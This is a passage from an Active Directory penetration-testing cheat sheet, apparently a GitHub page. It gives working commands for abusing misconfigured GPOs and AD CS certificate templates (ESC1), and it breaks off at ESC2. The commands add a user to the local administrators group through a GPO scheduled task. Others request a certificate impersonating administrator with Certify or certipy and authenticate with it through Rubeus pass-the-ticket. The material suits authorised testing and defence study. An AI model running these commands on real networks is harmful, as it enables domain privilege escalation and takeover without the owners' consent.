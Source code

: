 #### Abusing privileges over GPOs
A user/computer privileges over GPOs can be checked on GUI via `bloodhound` or can be enumerated using PowerView:
```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "CORP\pentestuser"}
```
Misconfigured GPOs can be exploited to execute code, for example, by creating an immediate scheduled task. 
```
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators pentestuser /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```
This can also be done using `pygpoabuse.py`:
```
python3 pygpoabuse.py my.domain.com/pentestuser:'MyPa$$W0rd' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4"
python3 pygpoabuse.py my.domain.com/pentestuser:'MyPa$$W0rd' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4" -powershell -command "...." -taskname "MyTask" -description "GPO abuse command"
```
### ADCS
AD CS refers to Active Directory Certificate Services. It is a Microsoft server role that provides public key infrastructure (PKI) functionality for an organization. It enables the creation, management, and deployment of digital certificates, which are used for encrypting data, authenticating users, devices, and services, and ensuring secure communications.

There are multiples ways to escalate privilege using the ADCS misconfigurations. They are labeled ESC# where the # is an incremental number startting from 1.

To find vulnerable certificate templates the following caommands can be run:
```
#Windows
Certify.exe find /vulnerable
#Linux
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128
```
When successful, the command generates a zip file that can be included in bloodhound for GUI analysis.
#### Misconfigured Certificate Templates - ESC1
This refers to the ability for requesters to include a subjectAltName in the Certificate Signing Request (CSR) is allowed by the template. The following conditions should meet in order to have an ESC1 misconfiguration:
- Enrolment rights are granted to low-privileged users by the Enterprise CA.
- Manager approval is not required.
- No signatures from authorized personnel are needed.
- Security descriptors on certificate templates are overly permissive, allowing low-privileged users to obtain enrolment rights.


To abuse this vulnerability to impersonate an administrator one could run:
```
Certify.exe request /ca:dc.domain.local-DC-CA /template:VulnTemplate /altname:localadmin
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'ESC1' -upn 'administrator@corp.local'
```
Then the generated certificate can be transformed to .pfx format and used to authenticate using Rubeus or certipy again:
```
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.19.100
```
#### Misconfigured Certificate Templates - ESC2
The second abuse scenario is a variation of the first one:
